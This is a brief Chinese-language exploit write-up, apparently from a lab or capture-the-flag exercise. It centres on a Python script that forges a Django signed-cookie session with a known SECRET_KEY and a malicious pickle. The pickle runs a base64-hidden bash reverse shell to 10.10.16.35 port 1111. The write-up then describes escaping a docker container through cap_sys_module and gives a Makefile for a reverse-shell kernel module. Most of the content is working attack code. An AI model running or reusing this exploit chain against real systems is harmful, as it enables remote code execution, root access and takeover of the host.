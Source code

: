 Django-rce脚本

![image-20240807184414874](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807184414874.png)

```
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
from django.conf import settings

settings.configure(SECRET_KEY="55A6cc8e2b8#ae1662c34)618U549601$7eC3f0@b1e8c2577J22a8f6edcb5c9b80X8f4&87b")


class CreateTmpFile(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.call,
                (['bash',
                  '-c','echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMzUvMTExMSAwPiYxJw== | base64 -d | bash'],))


sess = signing.dumps(
    obj=CreateTmpFile(),
    serializer=PickleSerializer,
    salt='django.contrib.sessions.backends.signed_cookies'
)


print(sess)
```

![image-20240807184606451](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807184606451.png)

![image-20240807184847555](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807184847555.png)

![image-20240807184902332](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807184902332.png)

拿到root shell，不过这是docker容器的shell,利用cap_sys_module存在的漏洞，反弹一个真实主机的shell，这是从dokcer容器弹回真实主机

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities?source=post_page-----65c956d588fa--------------------------------#cap_sys_module

Makefile

```
obj-m +=reverse-shell.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
